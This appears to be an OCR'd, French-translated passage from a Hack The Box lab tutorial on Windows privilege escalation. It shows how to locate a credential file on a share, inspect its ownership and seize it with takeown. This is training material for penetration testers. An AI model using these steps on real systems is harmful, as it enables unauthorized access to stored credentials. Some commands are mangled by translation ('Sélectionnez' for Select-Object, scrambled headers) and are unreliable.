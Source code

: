 Examinons notre fichier cible pour recueillir un peu plus d'informations à son sujet.

Choisir un fichier cible

```
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Sélectionnez Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

Propriétaire des attributs FullName LastWriteTime
-------- ------------- ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM Archive

```

#### Vérification de la propriété du fichier

Nous pouvons voir que le propriétaire n'est pas affiché, ce qui signifie que nous n'avons probablement pas suffisamment d'autorisations sur l'objet pour afficher ces détails. Nous pouvons sauvegarder un peu et vérifier le propriétaire du répertoire informatique.

Vérification de la propriété du fichier

```
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

  Le volume du lecteur C n'a pas d'étiquette.
  Le numéro de série du volume est 0C92-675B

  Répertoire de C:\Department Shares\Private\IT

18/06/2021 12:22 PM <DIR> WINLPE-SRV01\sccm_svc .
18/06/2021 12:22 PM <DIR> WINLPE-SRV01\sccm_svc ..
18/06/2021 12:23 36 ... cred.txt
                1 Fichier(s) 36 octets
                2 Dir(s) 17 079 754 752 octets libres

```

Nous pouvons voir que le partage informatique semble appartenir à un compte de service et contient un fichier `cred.txt` contenant des données.

#### Prendre possession du fichier

Nous pouvons maintenant utiliser le binaire Windows [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows pour modifier le propriétaire du fichier.

Prendre possession du dossier

```
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'

SUCCÈS : Le fichier (ou dossier) : "C:\Department Shares\Private\IT\cred.txt" appartient désormais à l'utilisateur "WINLPE-SRV01\htb-student".

```
